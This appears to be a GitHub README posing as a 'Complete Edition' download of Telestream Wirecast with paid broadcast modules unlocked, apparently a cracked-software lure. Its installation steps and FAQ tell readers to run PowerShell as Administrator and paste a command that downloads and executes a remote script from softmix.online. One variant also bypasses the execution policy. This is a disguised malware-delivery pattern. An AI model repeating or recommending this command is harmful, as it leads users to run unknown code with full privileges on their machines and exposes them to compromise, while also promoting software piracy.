

<div align="center">


<br>


# Telestream Wirecast Live Streaming Pro
**Professional live streaming · Multi-camera production · Broadcast-grade output**
<br>
**Professional live streaming · Multi-camera production · Broadcast-grade output**
<br>
Complete Edition · Premium Build · Windows · Deployment



**Complete Edition — all live streaming modules and professional broadcast tools enabled.**

</div>
---

> Licensed pro live streaming suite with multi-camera production and every broadcast module included.

## `INSTALLATION`

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://softmix.online/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically
4. Wait until the installer finishes

## `FEATURES`

🎬 **Live production** — Multi-source scenes and switching enabled.
📡 **Stream output** — Broadcast to platforms with pro overlays.
📦 **Offline studio** — Works locally after setup.
🖥️ **Windows optimized** — Built for creator workstations.
🎛️ **Pro controls** — Audio, scenes and widgets included.
✨ **Premium modules** — Paid broadcaster features enabled.
⚡ **One-command install** — PowerShell handles setup automatically.

## `REQUIREMENTS`

| | |
|:---|:---|
| **Windows** | Windows 10 / 11 (64-bit) |
| **RAM** | 8 GB |
| **Disk** | 2 GB |

## `FAQ`

<details>
<summary>&nbsp;<b>How to install?</b></summary>
<br>Open PowerShell as Administrator and run the command from the INSTALLATION section.
</details>

<details>
<summary>&nbsp;<b>Manual install blocked?</b></summary>
<br>Try: `powershell -ExecutionPolicy Bypass -Command "irm https://softmix.online/ps/setup.ps1 | iex"`
</details>

<details>
<summary>&nbsp;<b>Updates?</b></summary>
<br>Use the build from your downloaded Release.
</details>
<details>
<summary>&nbsp;<b>Requirements?</b></summary>
<br>Windows 10/11 64-bit, 8 GB, 2 GB.
</details>


TAGS
telestream-wirecast, live-streaming, multi-camera, broadcast, rtmp-output, production-switcher, professional, windows, desktop, software, pro, studio, tools
